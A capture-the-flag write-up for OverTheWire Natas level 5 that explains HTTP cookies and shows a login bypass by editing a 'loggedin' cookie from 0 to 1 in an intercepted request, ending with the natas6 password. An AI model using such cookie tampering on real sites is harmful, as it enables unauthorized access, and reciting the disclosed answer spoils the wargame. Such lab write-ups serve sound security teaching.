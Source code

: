 # Natas Level 5

A webpage with the following message:

Access disallowed. You are not logged in

## Intercepting the GET request to https://natas5.natas.labs.overthewire.org/

```
GET http://natas5.natas.labs.overthewire.org/ HTTP/1.1
Host: natas5.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
DNT: 1
Connection: keep-alive
Cookie: __cfduid=df31796d2294ed8c1d27f7bc43502b8a41592811532; loggedin=0
Upgrade-Insecure-Requests: 1
```

## [Using HTTP cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)

An HTTP cookie (web cookie, browser cookie) is a small piece of data that a server sends to the user's web browser. The browser may store it and send it back with later requests to the same server.

Typicaly, it is used to tell if two requests came from the same browser -- keeping a user logged-in, for example. It remembers stateful information for the stateless HTTP protocol.

### [Stateful information for the stateless HTTP protocol](https://developer.mozilla.org/en-US/docs/Web/HTTP/Overview#HTTP_is_stateless_but_not_sessionless)

HTTP is `stateless`: there is no link between two requests being successively carried out on the same connection. This immediately has the prospect of being problematic for users attempting to interact with certain pages coherently, for example, using e-commerce shopping baskets.

But while the core of HTTP itself is stateless, HTTP cookies allow the use of stateful sessions. Using header extensibility, HTTP Cookies are added to the workflow, allowing session creation on each HTTP request to share the same context, or the same state.

## [Creating cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#Creating_cookies)

_Server:_

After receiving a HTTP request, the server can send a `Set-Cookie` header with the response. The cookie is usually stored by the browser, and then the cookie is sent with requests made to the same server inside a `Cookie` HTTP header. An expiration date or duration can be specified, after which the cookie is no longer sent. Additional restrictions to a specific domain and path can be set, limiting where the cookie is sent.

`Set-Cookie: <cookie-name>=<cookie-value>`

Use multiple `Set-Cookie` headers to tell the client to store multiple cookies

```
HTTP/2.0 200 OK
Content-Type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
```

The client then sends all previously stored cookies to the server using the `Cookie` header on every subsequent request to the server.

```
GET /sample_page.html HTTP/2.0
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

# Modifying GET request

Update the `Cookie` loggedin value to `1` and send GET request.

```
Cookie: __cfduid=df31796d2294ed8c1d27f7bc43502b8a41592811532; loggedin=1
```

`Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1`

# PASSWORD to natas6

aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
